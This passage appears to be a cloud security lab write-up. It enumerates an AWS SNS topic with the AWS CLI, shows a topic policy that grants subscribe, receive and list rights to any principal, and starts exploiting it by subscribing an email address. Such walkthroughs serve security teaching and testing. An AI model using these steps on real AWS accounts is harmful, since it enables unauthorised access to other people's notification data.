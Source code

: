 **Output**:

- Found 1 SNS topic.
- Topic ARN: `arn:aws:sns:us-east-1:[REDACTED]:public-topic-<unique>`
- Subscribers: 0

List topics directly via CLI:

```bash
aws sns list-topics --profile sns --region us-east-1
```

**Output**:

```json
{
  "Topics": [
    {
      "TopicArn": "arn:aws:sns:us-east-1:[REDACTED]:public-topic-<unique>"
    }
  ]
}
```

Get topic attributes:

```bash
aws sns get-topic-attributes --topic-arn arn:aws:sns:us-east-1:[REDACTED]:public-topic-<unique> --profile sns --region us-east-1
```

**Key Output**:

- The topic policy allows `sns:Subscribe`, `sns:Receive`, and `sns:ListSubscriptionsByTopic` to any principal (`*`).
- Policy shows no conditionals, so access is global.

### 🔥 Key Security Insight

```json
"Principal": "*",
"Action": [
  "sns:Subscribe",
  "sns:Receive",
  "sns:ListSubscriptionsByTopic"
]
```

This means **anyone can subscribe and view subscriptions** on this topic.

---

## 📬 Exploiting Public SNS Topic

Subscribe to the topic:

```bash
aws sns subscribe   --topic-arn arn:aws:sns:us-east-1:[REDACTED]:public-topic-<unique>   --protocol email   --notification-endpoint you@example.com   --profile sns --region us-east-1
```
